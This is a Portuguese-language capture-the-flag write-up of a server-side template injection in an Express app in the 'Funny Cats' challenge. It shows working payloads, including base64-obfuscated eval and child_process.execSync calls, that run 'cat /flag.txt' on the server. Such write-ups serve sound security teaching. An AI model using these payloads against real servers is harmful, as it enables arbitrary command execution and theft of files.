



# **WEB**

**Autor**: Hakal  
**Desafio**: Funny Cats  
**Nível**: Médio  

---

## **1. Introdução**

Este documento descreve uma exploração bem-sucedida de uma vulnerabilidade Server-Side Template Injection (SSTI) em um servidor Express, com o objetivo de acessar a flag escondida no arquivo `/flag.txt`. A vulnerabilidade ocorre devido ao processamento inadequado de entradas de usuários, permitindo a execução de código arbitrário no servidor.

---

## **2. Análise do Código Vulnerável**

O servidor em questão exibe imagens de gatos e permite que os usuários insiram um nome de gato por meio de uma URL, como no exemplo: `https://funny-cats.chapeudepalhahacker.club/gato?name=Alfredo`. O site não realiza a devida sanitização da entrada do usuário, o que possibilita a exploração através de injeções de template.

A falta de sanitização adequada da entrada `name` possibilita a exploração via injeção de template. Essa vulnerabilidade permite que atacantes executem código no lado servidor, podendo ler arquivos sensíveis ou executar comandos arbitrários.

---

## **3. Exploração da SSTI**

A exploração foi realizada em três etapas principais: injeção de código básico, identificação do sistema operacional do servidor e, finalmente, leitura do conteúdo do arquivo `/flag.txt`.

### **Passo 1: Demonstração de Injeção de Template Básica**

Inicialmente, testamos a injeção com uma expressão simples para avaliar o comportamento do servidor.

**Payload:**

```plaintext
<%= 7*7 %>
```

**URL Encoded:**

A codificação em URL do payload foi realizada para evitar problemas com caracteres especiais e filtros de segurança.

```plaintext
%3C%25%3D%207*7%20%25%3E
```

**URL Completa:**

A URL completa com a injeção foi construída da seguinte forma:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%207*7%20%25%3E
```

**Resultado:**

O servidor processou a injeção e retornou o resultado da multiplicação, confirmando a execução de código no lado servidor.



### **Passo 2: Identificação do Sistema Operacional**

Com a vulnerabilidade confirmada, o próximo passo foi coletar informações sobre o servidor. Utilizou-se o método `eval` e a função `os.platform()` para identificar o sistema operacional:

**Payload:**

```plaintext
<%= '- Sistema Operacional: ' %><%=eval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk=', 'base64').toString())%><%= '' %>
```

**URL Encoded:**

A codificação do payload para URL ficou assim:

```plaintext
%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

A URL completa com o payload para a identificação do sistema operacional foi:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**Resultado:**

O servidor retornou a plataforma do sistema operacional, confirmando a execução do comando.



### **Passo 3: Leitura do Conteúdo de /flag.txt**

A etapa final consistiu em acessar o arquivo `/flag.txt` do servidor. Utilizamos o módulo `child_process` do Node.js para executar o comando `cat /flag.txt` e obter o conteúdo do arquivo. O comando foi codificado em base64 para evitar interferências.

**Payload:**

```plaintext
<%= '- ' %><%= global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo=', 'base64').toString()) %><%= '' %>
```

**URL Encoded:**

O payload foi novamente URL-encoded para garantir o correto processamento no servidor:

```plaintext
%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

A URL com a injeção para leitura do conteúdo do arquivo `/flag.txt` foi:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**Resultado:**

O servidor retornou o conteúdo do arquivo `/flag.txt`, revelando a flag.



---

## **4. Conclusão**

A exploração da vulnerabilidade SSTI no servidor Express foi concluída com sucesso. Através da injeção de código malicioso, foi possível:

1. Verificar o processamento inadequado de entradas do usuário pelo servidor.
2. Identificar o sistema operacional do servidor.
3. Executar comandos arbitrários para acessar o conteúdo do arquivo `/flag.txt` e obter a flag.

Essa exploração destaca a importância de validar e sanitizar corretamente as entradas dos usuários para prevenir vulnerabilidades SSTI em aplicações web.

---
